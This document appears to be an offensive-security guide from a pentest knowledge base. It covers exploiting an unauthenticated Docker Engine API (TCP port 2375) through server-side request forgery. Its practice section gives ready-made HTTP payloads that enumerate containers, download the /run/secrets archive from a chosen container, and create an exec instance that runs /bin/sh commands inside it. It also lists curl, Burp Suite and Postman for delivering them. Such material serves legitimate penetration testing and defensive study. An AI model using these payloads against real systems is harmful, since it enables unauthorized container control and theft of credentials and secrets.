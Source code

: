 ```yaml
---
title: Exploiting Docker Metadata via SSRF Attacks
description: Learn how to exploit Docker metadata and API through SSRF attacks to
  compromise containers securely and effectively.
keywords:
- Docker
- SSRF
- Docker Engine API
- container metadata
- exploitation techniques
- Docker security
- metadata service
- container compromise
- API exposure
- unprotected endpoints
---
```


# Docker

## Context

In this guide, we will explore the exploitation of Docker metadata and the Docker Engine API through Server-Side Request Forgery (SSRF) to compromise containers. The guide assumes an understanding of key concepts such as containerization, basic orchestration, metadata service exploitation, and the mechanics of SSRF attacks. This knowledge is crucial for successfully navigating and exploiting vulnerabilities associated with Docker's exposed interfaces and metadata.

## Theory

### Docker Engine API Exposure

The Docker Engine API is a RESTful interface allowing for the management of Docker containers, images, and services. When the Docker API is exposed, either through TCP (commonly on port 2375) or a unix socket, it provides significant control over the Docker daemon. Without proper protection, such exposure can be exploited to gain unauthorized control. Unprotected Docker API endpoints are particularly vulnerable to SSRF attacks, as they may allow malicious actors to enumerate containers, create new ones, or manipulate existing containers without authentication.

### SSRF to Docker API Attack Surface

The attack surface for SSRF on Docker API is substantial, especially when the API is exposed. Attackers leverage SSRF vulnerabilities to send crafted HTTP requests to Docker API endpoints accessible via localhost or unix socket paths. A typical SSRF payload might target the endpoint `http://127.0.0.1:2375/v1.24/containers/json`, used to enumerate existing containers. The Docker API on TCP/2375, by default, lacks any form of authentication, further expanding the potential for exploitation.

### Container Metadata and Sensitive Endpoints

Docker containers maintain metadata that includes their configurations, environment variables, and mounted secrets. By exploiting SSRF vulnerabilities, attackers may access sensitive endpoints such as `/secrets` or `/service`, potentially exposing critical data such as credentials or secret keys stored within containers. Access to such data can have severe security implications.

## Practice

### Enumerate Docker Containers via SSRF

To enumerate Docker containers, you can utilize an SSRF vulnerability to send requests to the Docker API.

- **Payload:**

  ```http
  GET http://127.0.0.1:2375/v1.24/containers/json
  ```

  This SSRF payload will list the running Docker containers.

- **Review:** Examine the JSON response to identify container IDs, names, and images. This enumeration provides insights into the current container environment.

- **Outcome:** Successfully enumerating containers grants visibility into active containers and their metadata.

### Extract Secrets from Container Endpoints

To retrieve secrets from containers, you can target specific endpoints to download sensitive information.

- **Payload:**

  ```http
  GET http://127.0.0.1:2375/v1.24/containers/<container_id>/archive?path=/run/secrets
  ```

  Replace `<container_id>` with a valid container ID identified in the enumeration step.

- **Review:** Download and inspect the archive to discover sensitive files or embedded credentials within the container.

- **Outcome:** Gain access to secrets or credentials, which may provide further footholds into the system.

### Execute Commands in Containers via SSRF

Executing commands within containers can be performed by crafting API requests to the Docker API.

- **Payload:**

  Step 1: Create an exec instance
  ```http
  POST http://127.0.0.1:2375/v1.24/containers/<container_id>/exec
  Content-Type: application/json
  
  {
      "AttachStdout": true,
      "AttachStderr": true,
      "Cmd": ["/bin/sh", "-c", "id"]
  }
  ```

  This payload will initiate command execution in the specified running container.

- **Review:** Capture and evaluate the command output for revealing information about user privileges or environment settings.

- **Outcome:** Successful execution results in command execution within a targeted Docker container, potentially leading to privilege escalation.

## Tools

- **curl**
- **Burp Suite**
- **Postman**

These tools are essential for crafting and delivering SSRF payloads, inspecting HTTP requests, and managing API interactions during the exploitation process.